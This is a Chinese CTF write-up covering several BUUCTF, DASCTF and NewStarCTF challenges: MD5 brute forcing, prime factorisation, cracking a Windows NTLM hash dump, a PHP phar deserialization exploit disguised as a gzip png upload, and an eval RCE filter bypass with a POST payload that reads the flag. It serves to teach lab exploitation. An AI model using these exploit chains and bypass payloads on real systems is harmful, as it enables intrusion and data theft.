








[buuctf] web, misc, crypto 区 write up 11
===

## [Crypto] 丢失的 md5

### 题解

直接跑出来就行, 这里改成了 python3 支持的形式:

```python
import hashlib   
for i in range(32,127):
    for j in range(32,127):
        for k in range(32,127):
            m=hashlib.md5()
            m.update('TASC'+chr(i)+'O3RJMV'+chr(j)+'WDJKX'+chr(k)+'ZM')
            des=m.hexdigest()
            if 'e9032' in des and 'da' in des and '911513' in des:
                print des
```



## [Crypto] Alice 与 Bob

> 题目描述: 密码学历史中，有两位知名的杰出人物，Alice和Bob。他们的爱情经过置换和轮加密也难以混淆，即使是没有身份认证也可以知根知底。就像在数学王国中的素数一样，孤傲又热情。下面是一个大整数:98554799767,请分解为两个素数，分解后，小的放前面，大的放后面，合成一个新的数字，进行md5的32位小写哈希，提交答案。

这题显然就是一个大素数分解, 这是 RSA 等经典算法的基础, 准备借这个题的机会完全搞明白大素数分解问题; 这题的数不大, 用优化试除即可:

### 朴素/优化试除 (Brute force)

朴素试除, 就是从 2 到 $\sqrt{n}$ 穷举来寻找因子, 非常原始; 而优化试除会在挑选候选数上进行一定优化:

- 最简单的优化, 跳过偶数;
- 对于比较小的数,提供一张**小素数表**, 在算法刚开始时遍历这张表;
- 进一步优化, 选用**埃拉托斯特尼筛法 (Sieve of Eratosthenes)**, 

> 时间复杂度: 朴素试除为 $O(\sqrt{N})$; 优化后降低, 但整体上将依然是 $O(\sqrt{N})$;

示例:

```python
# trial_with_sieve.py
import math
import time

def primes_upto(n):
    sieve = bytearray(b'\x01') * (n+1)
    sieve[0:2] = b'\x00\x00'
    for p in range(2, int(n**0.5)+1):
        if sieve[p]:
            step = p
            start = p*p
            sieve[start:n+1:step] = b'\x00' * (((n - start)//step) + 1)
    return [i for i, isprime in enumerate(sieve) if isprime]


def trial_division_with_sieve(n):
    
    if n <= 1:
        return []
    limit = int(math.isqrt(n))
    primes = primes_upto(limit)
    for p in primes:
        if n % p == 0:
            return [p, n//p]
    return [n]  # prime


if __name__ == "__main__":
    N = 98554799767
    start_time = time.time()
    print("[+] Time start:", start_time)
    print(trial_division_with_sieve(N))
    end_time = time.time()
    print("[+] Time end:", end_time)
    print("[+] Time cost:", end_time - start_time)

```

## [Crypto] Windows系统密码

### 题解

拿到题目, 是一个 hash 文件:

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
ctf:1002:06af9108f2e1fecf144e2e8adef09efd:a7fcb22a88038f35a8f39d503e7f0062:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SUPPORT_388945a0:1001:aad3b435b51404eeaad3b435b51404ee:bef14eee40dffbc345eeb3f58e290d56:::
```

#### windows 密码哈希文件结构

文件每一行遵循: "`Username:RID:LM_hash:NT_hash`" 的结构; 

例如这一行:

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

- `Administrator`: 用户名;
- `500`: RID (Relative Identifier), Windows 本地账户的 ID, 一般来说, **RID 为 500 就是内建管理员, 501 是 Guest 访客账户, 1000+ 是其他自建账户**;
- `aad3b435b51404eeaad3b435b51404ee` : LM (LAN Manager) 哈希值, 这个哈希本身是处理 DES 用的, 已经**弃用**, 现在看见的这一大串是个**占位符** (类似 Linux passwd 文件中的 `x`);
- `31d6cfe0d16ae931b73c59d7e0c089c0` : NT (NTLM) 哈希值, 这是对**密码进行 UTF-16LE 编码后计算 MD4 摘要** 的结果; 值得一提的是现在这个 `31d6cfe0d16ae931b73c59d7e0c089c0` 值就是**空密码**的结果; 
- `:::`, pwdump / SAM 导出格式的占位列;

知道这个结构就可以反算 ctf 账户了: 这个账户的 LM_hash 不为空, 也就是有有效密码, 碰撞一下:



注意 LM_hash 是不分大小写的, 结合后一段的哈希, 这里的密码肯定是 `good-luck`

## [DASCTF2022.07赋能赛 WEB] Ez to getflag

### 题解

打开是一个图片上传网站, 有两个功能: 查询, 上传; 抓个包看一下, 能发现查文件用的是 `file.php`, 返回的结果以 base64 的方式发回;

#### 本地文件包含

那先试试查询功能能不能查任意文件, 查 `index.php`:



成功, 那看看关键的 `file.php` 和上传文件 `upload.php`:



<!-- tab file.php -->

```php
<?php
    error_reporting(0);
    session_start();
    require_once('class.php');
    $filename = $_GET['f'];
    $show = new Show($filename);
    $show->show();
?>
```

<!-- endtab -->

<!-- tab upload.php -->

```php
<?php
    error_reporting(0);
    session_start();
    require_once('class.php');
    $upload = new Upload();
    $upload->uploadfile();
?>
```

<!-- endtab-->

<!-- tab class.php -->

追一下这个 `class.php`:

```php
<?php 

    class Upload {
        public $f; #文件内容
        public $fname; #文件名
        public $fsize; #文件大小
        function __construct(){
            $this->f = $_FILES;
        }
        function savefile() {  
            # 文件名为原名 (带后缀) 的 md5
            $fname = md5($this->f["file"]["name"]).".png"; 
            if(file_exists('./upload/'.$fname)) { 
                @unlink('./upload/'.$fname);
            }
            move_uploaded_file($this->f["file"]["tmp_name"],"upload/" . $fname); 
            echo "upload success! :D"; 
        }
        # step 2
        function __toString(){
            $cont = $this->fname;
            $size = $this->fsize;
            # 注意这里, 调用了不存在的属性, 会调用 __get 魔术方法
            echo $cont->$size;
            return 'this_is_upload';
        }
        function uploadfile() { 
            if($this->file_check()) { 
                $this->savefile(); 
            } 
        }
        function file_check() { 
            # 白名单, 只允许 png 后缀
            $allowed_types = array("png");
            # 分割, 然后检查后缀
            $temp = explode(".",$this->f["file"]["name"]);
            $extension = end($temp); 
            if(empty($extension)) { 
                echo "what are you uploaded? :0";
                return false;
            }
            else{ 
                if(in_array($extension,$allowed_types)) {
                    # 黑名单过滤文件内容, 注意 <? 没有过滤, 也就是能用 <?= 来绕
                    $filter = '/<\?php|php|exec|passthru|popen|proc_open|shell_exec|system|phpinfo|assert|chroot|getcwd|scandir|delete|rmdir|rename|chgrp|chmod|chown|copy|mkdir|file|file_get_contents|fputs|fwrite|dir/i';
                    $f = file_get_contents($this->f["file"]["tmp_name"]);
                    if(preg_match_all($filter,$f)){
                        echo 'what are you doing!! :C';
                        return false;
                    }
                    return true; 
                } 
                else { 
                    echo 'png onlyyy! XP'; 
                    return false; 
                } 
            }
        }
    }
    class Show{
        public $source;
        public function __construct($fname)
        {
            $this->source = $fname;
        }
        public function show()
        {
            if(preg_match('/http|https|file:|php:|gopher|dict|\.\./i',$this->source)) {
                die('illegal fname :P');
            } else {
                echo file_get_contents($this->source);
                $src = "data:jpg;base64,".base64_encode(file_get_contents($this->source));
                echo "";
            }
        
        }
        # step 3
        function __get($name)
        {
            $this->ok($name);
        }
        # step 4
        public function __call($name, $arguments)
        {
            if(end($arguments)=='phpinfo'){
                phpinfo();
            }else{
                $this->backdoor(end($arguments));
            }
            return $name;
        }
        # step 5
        public function backdoor($door){
            include($door);
            echo "hacked!!";
        }
        public function __wakeup()
        {
            if(preg_match("/http|https|file:|gopher|dict|\.\./i", $this->source)) {
                die("illegal fname XD");
            }
        }
    }
    class Test{
        public $str;
        public function __construct(){
            $this->str="It's works";
        }
        # step 1
        public function __destruct()
        {
            echo $this->str;
        }
    }
?>
```

<!-- endtab -->

#### 反序列化

审计一下源码发现存在反序列化漏洞, 攻击链:

> `$Test->__destruct()` => `$Upload->__toString()` => `$Show->__get()` => `$Show->__call()` => `$Show->backdoor()`

注:

 - `__destruct()`: 对象调用完毕销毁时自动触发;
 - `__toString()`: 将对象转化为字符串时触发;
 - `__get()`: 调用不存在 (无法访问) 的属性时触发;
 - `__call()`: 调用无法访问的方法时触发;

exp:

```php
<?php 

    class Upload {
        public $f; #文件内容
        public $fname; #文件名
        public $fsize; #文件大小
        
    }
    class Show{
        public $source;
        
    }
    class Test{
        public $str;
        
    }


$a = new Test();
$a->str = new Upload();
$a->str->fname = new Show('exp');
$a->str->fsize = '/flag';

$phar =new Phar("exp.phar"); 
$phar->startBuffering();
$phar->setStub("GIF89a"."XXX<?php XXX __HALT_COMPILER(); ?>"); 

$phar->setMetadata($a); 
$phar->addFromString("test.txt", "test");
$phar->stopBuffering();

echo "phar created!";
?>
```

然后用 gzip 压缩, 并重命名为 png:

```python
# f_gzip.py

import gzip

with open('exp.phar', 'rb') as file:
    f = file.read()

newf = gzip.compress(f)  # 对Phar文件进行gzip压缩
with open('exp.png', 'wb') as file:  # 更改文件后缀
    file.write(newf)

```

再上传:



查一下 (MD5 文件名), 上传成功:





爆出 flag;

### 总结

这里有几个坑:

- 其一是虽然没有 ban `<?=`, 但是此处在 phar 序列化时如果用 `<?=` 会导致反序列化无法正常执行, 需要注意;

- 其二是 gzip 压缩不会影响反序列化; Phar wrapper 在打开时会**识别并正确处理**压缩格式 (gzip/bz2);

## [NewStarCTF 2023 公开赛道] R!C!E!

### 题解

```php
 <?php
highlight_file(__FILE__);
if(isset($_POST['password'])&&isset($_POST['e_v.a.l'])){
    $password=md5($_POST['password']);
    $code=$_POST['e_v.a.l'];
    if(substr($password,0,6)==="c4d038"){
        if(!preg_match("/flag|system|pass|cat|ls/i",$code)){
            eval($code);
        }
    }
} 
```

首先爆破 `password`:

```python
#!/usr/bin/env python3
# md5_cracker.py

'''
根据给定的前缀尝试组合
'''

from hashlib import md5
import itertools
import string

def generate_md5_hash(s):
    return md5(s.encode()).hexdigest()

LENGTH = 6
PREFIX = 'c4d038'  # 目标前缀

def main():
    charset = string.ascii_lowercase + string.digits  # 小写字母和数字
    print(f"[*] Starting MD5 hash cracking with prefix '{PREFIX}'...")
    count = 0
    for attempt in itertools.product(charset, repeat=LENGTH):
        count += 1
        candidate = ''.join(attempt)
        hash_value = generate_md5_hash(candidate)
        if count % 100000 == 0:
            print(f"[*] Tried {count} combinations so far...")
        if hash_value.startswith(PREFIX):
            print(f"[+] Found matching string: {candidate} -> {hash_value}")
            return
    print("[-] No matching string found.") 

if __name__ == "__main__":
    main()
```



第二处需要考虑 `$e_v.a.l` 这个变量如何正确传入, 因为 PHP 中 GET 和 POST 传入的参数中, ` `, `.`, `[]` 会解析为 `_`, 但是  PHP 中还有个特性: **如果传入 `[` ，它被转化为 `_` 之后，后面的字符就会被保留下来不会被替换;**

因此此处传入的变量名是 `e[v.a.l`;

之后是对 RCE 的 bypass, 这里有很多函数没 ban, 比如反引号, `tac`, `more`, `tail` 等等, payload:

```
(POST)
password=apofox&e[v.a.l=echo(exec(%22tac%20/fla?%22));
```



爆出 flag;

